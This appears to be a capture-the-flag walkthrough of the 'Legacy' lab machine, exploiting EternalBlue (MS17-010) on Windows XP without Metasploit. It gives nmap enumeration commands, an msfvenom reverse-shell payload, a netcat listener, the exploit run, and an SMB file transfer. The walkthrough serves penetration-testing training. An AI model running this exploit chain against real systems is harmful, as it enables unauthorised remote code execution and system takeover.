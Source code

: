# Legacy without Metasploit

## Enumeration

### Run nmap scan: 

#### **`nmap -T4 -p- -A 10.10.10.4`**

* -T4 flag is to speed the scan up a bit. T3 is the default if this is not specified.
* -A flag will enable Operating system, version detection, script scanning, and traceroute.
* -p- flag will scan for all 65,535 ports. By default, if this is not specified, nmap will scan the top 1000 ports.

![](../.gitbook/assets/legacy-nmap.png)

#### Dissecting the Results:

* **Port 139:** Running Microsoft Windows netbios-ssn.
* **Port 445:** Running Windows XP microsoft-ds.
* **Host script results:** Definitely a Windows XP machine.
* **SMB-security-mode:** Message signing is disabled, which means an SMB Relay attack could work, but for this box, it will not be done for this instance.

Looks like our only option is to use an SMB exploit. Let's enumerate further with nmap smb vulnerability scripts.

```text
nmap -v -script smb-vuln* -p 139,445 10.10.10.4
```

Breaking down the command above:

* v Flag - Makes the output verbose, giving more details as to what is happening.
* script Flag - Declares we will be using a script. A script must be entered after declaring this flag.
* smb-vuln\* - Utilizes every script beginning with smb-vuln.
* p Flag - Ports to run the scripts against, in this case, it is ports 139 and 445.

![](../.gitbook/assets/smb-vuln-legacy-results.png)

The results of the script show that it is vulnerable to CVE-2008-4250 and CVE-2017-0143. Normally, RCE \(Remote Code Execution\) is prioritized over everything, but both CVE utilize RCE. The server is using SMBv1 and since the Risk Factor is high, we will be going with CVE-2017-0143 \(ms17-010\), otherwise known as EternalBlue.

## Exploitation

Eternal Blue is a vulnerability that exploited Microsoft's SMB protocol, where a specially crafted packet allowed an attacker to execute arbitrary code on the target machine.

First, we must download an exploit. A good one to check out is:

```text
git clone https://github.com/helviojunior/MS17-010.git
```

Next, we will use msfvenom to generate a payload that will create a reverse shell on the Windows machine:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.95 LPORT=7777 -f exe > eternal.exe
```

* **-p flag:** Payload type.
* **LHOST:** Listening IP address of the attacking machine.
* **LPORT:** Listening port of the attacking machine.
* **-f flag:** File format of payload.
* **-o flag:** Where to save the file as well as name the file.

Then I will set up a listener on our attacking machine:

```text
nc -nlvp 7777
```

Run the exploit:

```text
python send_and_execute.py 10.10.10.4 /opt/eternal.exe
```

![](../.gitbook/assets/exploit-output.png)

Get reverse shell:

![whoami is not recognized.](../.gitbook/assets/caught-shell.png)

### Root.txt and User.txt

We can actually get the root and user flags very simply without any escalation needed for this box and can stop here if we wish. Read further to see how we could transfer over whoami.exe via smbserver.py and figure out what user we are and what privileges we have.

![](../.gitbook/assets/legacy-root-and-user-flags.png)

### Enumerating User and Privileges

To figure out what user we are and what are our privileges, I attempted `whoami`  and `echo %username%` only to fail.

Kali has a whoami executable \(to find, type `locate whoami.exe`\) located at /usr/share/windows-resources/binaries/whoami.exe and we can export this file to the Windows machine. Certutil.exe is not recognized on the Windows machine, which is the curl/wget equivalent to Linux so we cannot transfer files with the `python -m SimpleHTTPServer 80` command.

We must run a SMB server to share files, and we can do this by first locating and running smbserver.py  to share the directory that contains whoami.exe. 

First, we run `locate smbserver.py` which brings back \(for me\) /usr/share/doc/python3-impacket/examples/smbserver.py

![](../.gitbook/assets/locate-smbserver.png)

Then, we must run the smbserver.py and have it host a folder, which we will name "temp" and within temp, will be the directory leading to whoami.exe which is shown below:

```text
python3 /usr/share/doc/python3-impacket/examples/smbserver.py temp /usr/share/windows-resources/binaries/
```

![](../.gitbook/assets/running-smbserver.png)

Let's confirm we can connect to the SMB temp share:

```text
smbclient //10.10.14.95/TEMP
```

![](../.gitbook/assets/confirming-connection-to-smbserver-and-seeing-whoami-executable.png)

Let's try connecting and running whoami.exe on our victim machine:

![](../.gitbook/assets/system-privs.png)

We are NT Authority\System and have the highest level of privileges. There is no need to escalate privileges for this box.

## Lessons Learned

Always ensure your systems are patched and up to date. If the MS17-010 security update had been applied, we would've needed to find a different method to exploit this machine.

